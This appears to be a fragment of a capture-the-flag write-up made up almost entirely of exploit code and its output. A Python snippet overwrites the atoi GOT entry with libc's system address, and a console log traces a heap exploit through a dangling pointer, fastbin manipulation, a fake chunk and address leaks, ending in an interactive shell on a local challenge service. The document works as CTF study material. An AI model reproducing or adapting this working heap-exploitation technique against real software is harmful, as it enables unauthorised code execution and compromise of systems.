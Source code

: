 ```python
	SYSTEM = LIBC + 0x3f450

	log.info("Edit Player => Write the system to atoi GOT")
	edit_player_name(p64(SYSTEM))
	r.sendline("sh")
```

```bash
$ ./exp.py 
[+] Opening connection to 127.0.0.1 on port 1337: Done
[*] Add playerA
[*] Add playerB
[*] Add playerC
[*] Select playerA
[*] Remove playerB
[*] Remove playerA
[*] HEAP Leak     : 0x19bf630
[*] LIBC Leak     : 0x7fe6194b8b58
[*] LIBC BASE     : 0x7fe619120000
[*] Remove PlayerC
[*] Add Player F
[*] Select Player F => dangling pointer
[*] Add Player G
[*] Remove Player F => 2 chunks put on fastbin
[*] Create fake chunk in the Player G region. Align on 0x8
[*] Select Player G
[*] Overwrite Player G data for proper size and null FD 
[*] Add Player H => Remove 1 chunk from fastbin
[*] Add Player => remove 2 chunks from fastbin
[*] Edit Player => Write the system to atoi GOT
[*] Switching to interactive mode
 $ id
uid=1002(pwn) gid=1003(pwn) groups=1003(pwn)

```